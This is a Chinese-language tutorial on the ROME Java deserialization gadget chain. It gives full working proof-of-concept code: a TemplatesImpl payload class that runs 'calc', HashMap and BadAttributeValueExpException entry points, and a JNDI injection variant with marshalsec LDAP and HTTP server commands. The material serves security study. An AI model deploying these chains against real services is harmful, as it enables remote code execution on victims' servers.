

# 0x01 What Is ROME

ROME is a Java framework for RSS and Atom feeds

RSS ： Really Simple Syndication（真正简易联合）

是一种消息来源格式规范，用以聚合经常发布更新数据的网站，例如博客文章、新闻、音频或视频的网摘。其使用XML编写

RSS 阅读器用于读取 RSS feed。ROME就是一个RSS 阅读器的实现。

# 0x02 First Glance

```xml
<dependency>  
    <groupId>rome</groupId>  
    <artifactId>rome</artifactId>  
    <version>1.0</version>  
</dependency>  
<dependency>  
    <groupId>org.javassist</groupId>  
    <artifactId>javassist</artifactId>  
    <version>3.28.0-GA</version>  
</dependency>
```

```java
public class ToStringBean implements Serializable { // 实现了Serializable接口
	protected ToStringBean(Class beanClass) {
        _beanClass = beanClass;
        _obj = this;
    }
    public String toString() {
        Stack stack = (Stack) PREFIX_TL.get();
        String[] tsInfo = (String[]) ((stack.isEmpty()) ? null : stack.peek());
        String prefix;
        if (tsInfo==null) {
            String className = _obj.getClass().getName();
            prefix = className.substring(className.lastIndexOf(".")+1);
        }
        else {
            prefix = tsInfo[0];
            tsInfo[1] = prefix;
        }
        return toString(prefix);
    }
    private String toString(String prefix) {
        StringBuffer sb = new StringBuffer(128);
        try {
            PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(_beanClass);
            if (pds!=null) {
                for (int i=0;i<pds.length;i++) {
                    String pName = pds[i].getName();
                    Method pReadMethod = pds[i].getReadMethod();
                    if (pReadMethod!=null &&                             // ensure it has a getter method
                        pReadMethod.getDeclaringClass()!=Object.class && // filter Object.class getter methods
                        pReadMethod.getParameterTypes().length==0) {     // filter getter methods that take parameters
                        Object value = pReadMethod.invoke(_obj,NO_PARAMS);
                        printProperty(sb,prefix+"."+pName,value);
                    }
                }
            }
        }
        catch (Exception ex) {
            sb.append("\n\nEXCEPTION: Could not complete "+_obj.getClass()+".toString(): "+ex.getMessage()+"\n");
        }
        return sb.toString();
    }
}
```

`toString(String prefix)`有可疑的`pReadMethod.invoke`

`BeanIntrospector.getPropertyDescriptors(_beanClass);`能够获取类中的属性名及其getter方法（getter需要public）

可以本地试试：

新建一个`Person`类：

```java
public class Person {
    public String name;
    private Integer age;
    public String getName() {
        return name;
    }
    public Integer getAge() {
        return age;
    }
}
```

```java
PropertyDescriptor[] pds = BeanIntrospector.getPropertyDescriptors(Person.class);
if (pds != null) {
    for (int i = 0; i < pds.length; i++) {
        String pName = pds[i].getName();
        Method pReadMethod = pds[i].getReadMethod();
        System.out.println(pReadMethod.getName());
    }
}
//        getName 
//        getClass
//        getAge
```

接着遍历`PropertyDescriptor`数组，对于每个getter方法，若其不是Class类的getter方法（一般就是`getClass`了），且无参，则执行该方法（`pReadMethod.invoke(_obj,NO_PARAMS)`）

在`FastJson`那节我们就接触了几个可以利用`getter`方法的恶意类

* `TemplatesImpl#getOutputProperties`（fastjson中需要开启`Feature.SupportNonPublicField`）
* `JdbcRowSetImpl#getDatabaseMetaData()`（jndi注入，需要出网）
* `BasicDataSource#getConnection`（BCEL码）

下面以`TemplatesImpl#getOutputProperties`为例

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Evil extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers)
            throws TransletException {}
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {}
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

```java
public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
    Class clazz = obj.getClass();
    Field field = clazz.getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, newValue);
}

public static void main(String[] args) throws Exception {
    byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
    TemplatesImpl obj = new TemplatesImpl();
    setFieldValue(obj, "_bytecodes", new byte[][] {code});
    setFieldValue(obj, "_name", "p4d0rn");
    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
    ToStringBean bean = new ToStringBean(TemplatesImpl.class, obj);
    System.out.println(bean);  // 调用ToStringBean的toString方法
}
```

接着要找某个类的`readObject`调用了`toString`且调用者可控。

这里找了个中间人`EqualsBean`，和`ToStringBean`在同一个包下

```java
public class EqualsBean implements Serializable {
    // The hashcode is calculated by getting the hashcode of the Bean String representation
    public EqualsBean(Class beanClass,Object obj) {
        if (!beanClass.isInstance(obj)) {
            throw new IllegalArgumentException(obj.getClass()+" is not instance of "+beanClass);
        }
        _beanClass = beanClass;
        _obj = obj;
    }
    public int hashCode() {
        return beanHashCode();
    }
    public int beanHashCode() {
        return _obj.toString().hashCode();
    }
}
```

熟悉的`hashCode`，入口就是`URLDNS`的入口类`hashMap`

`hashMap#readObject` => `hash(key)`  => `key.hashCode()` => `EqualsBean#hashCode`

# 0x03 Weave POC

和`URLDNS`一样，往`map`里`put`时会触发`hashCode`，这里使用`ObjectBean`来作中转，后面再用反射修改

```java
public class ObjectBean implements Serializable{
    public ObjectBean(Class beanClass,Object obj,Set ignoreProperties) {
        _equalsBean = new EqualsBean(beanClass,obj);
        _toStringBean = new ToStringBean(beanClass,obj);
        _cloneableBean = new CloneableBean(obj,ignoreProperties);
    }
    public int hashCode() {
        return _equalsBean.beanHashCode();
    }
}
```

POC：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ToStringBean bean = new ToStringBean(Templates.class, obj);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, bean);
        ObjectBean fakeBean = new ObjectBean(String.class, "p4d0rn");  // 传入无害的String.class
        HashMap map = new HashMap();
        map.put(fakeBean, 1);  // 注意put的时候也会执行hash
        setFieldValue(fakeBean, "_equalsBean", equalsBean);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(map);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

> 网上的文章都没遇到这个问题吗？太离谱了
>
> 构造`ToStringBean`时应该传入`Templates.class`，这个`Templates`接口只定义了`getOutputProperties`这个方法。
>
> 若传入`TemplatesImpl.class`，`BeanIntrospector.getPropertyDescriptors(Target.class)`遍历getter方法时，会先遍历到`getStylesheetDOM`，`return (DOM)_sdom.get();`。而`_sdom`这个属性被`transient`修饰，无法被序列化。反序列化的时候会抛出`NullPoint`异常，退出`getter`方法遍历，导致无法执行到`getOutputProperties`

# 0x04 Other Versions

CC5中也有利用到`toString()`的类，`BadAttributeValueExpException`

```java
public class BadAttributeValueExpException extends Exception{
    public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
}
```



```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static void main(String[] args) throws Exception {
        byte[] code = ClassPool.getDefault().get(Evil.class.getName()).toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "p4d0rn");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ToStringBean bean = new ToStringBean(Templates.class, obj);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(bean);
        
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(badAttributeValueExpException);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

fastjson那节利用的是`JdbcRowSetImpl#setAutoCommit`来进行jndi注入，但ROME链是触发getter方法。

实际上在`JdbcRowSetImpl`类里搜索`this.connect()`，还存在一个方法`getDatabaseMetaData`

```java
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            }
            // ....
        }
}
```

`getDataSourceName`是在`JdbcRowSetImpl`父类`BaseRowSet`中定义的，我们就不能用`getDeclaredField`来获取了。`JdbcRowSetImpl#setDataSourceName`可以直接设置值。

```java
import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class Rome {

    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:8099/aaa");

        ToStringBean bean = new ToStringBean(JdbcRowSetImpl.class, jdbcRowSet);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        setFieldValue(badAttributeValueExpException, "val", bean);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(badAttributeValueExpException);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

`java -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#calc 8099`开启ldap服务

`python -m http.server 8000`开启web服务
